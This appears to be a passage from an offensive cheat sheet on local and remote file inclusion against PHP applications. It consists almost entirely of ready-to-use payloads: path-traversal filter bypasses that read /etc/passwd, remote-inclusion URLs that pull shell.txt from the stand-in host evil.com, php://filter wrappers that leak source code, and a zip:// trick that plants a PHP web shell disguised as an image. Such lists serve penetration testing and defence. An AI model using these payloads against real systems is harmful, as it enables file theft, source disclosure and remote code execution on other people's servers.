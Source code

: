 Filter bypass tricks

```powershell
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

## Basic RFI

```powershell
http://example.com/index.php?page=http://evil.com/shell.txt
```

Null byte

```powershell
http://example.com/index.php?page=http://evil.com/shell.txt%00
```

Double encoding

```powershell
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

## LFI / RFI using wrappers

### Wrapper php://filter

The part "php://filter" is case insensitive

```powershell
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

can be chained with a compression wrapper for large files.

```powershell
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

NOTE: Wrappers can be chained : `php://filter/convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=%s`

### Wrapper zip://

```python
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```
